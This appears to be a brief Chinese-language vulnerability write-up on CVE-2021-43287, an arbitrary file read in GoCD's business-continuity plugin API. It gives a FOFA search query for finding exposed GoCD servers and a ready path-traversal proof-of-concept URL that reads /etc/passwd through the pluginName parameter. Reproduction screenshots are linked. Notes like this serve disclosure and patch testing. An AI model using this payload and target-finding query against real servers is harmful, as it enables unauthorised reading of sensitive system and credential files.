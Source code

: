 # GoCD plugin 任意文件读取漏洞 CVE-2021-43287

## 漏洞描述

*GoCD*，一个开源的持续集成和持续交付系统，可以在持续交付过程中执行编译，自动化测试，自动部署等等，与Jenkins类似。

GoCD plugin aip 参数中的 pluginName 参数存在任意文件读取漏洞，导致攻击者可以获取服务器中的任意敏感信息

## 漏洞影响

```
GoCD
```

## FOFA

```
title="Create a pipeline - Go"
```

## 漏洞复现

主页面

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251627593.png)

验证POC

```
/go/add-on/business-continuity/api/plugin?folderName=&pluginName=../../../etc/passwd
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251627131.png)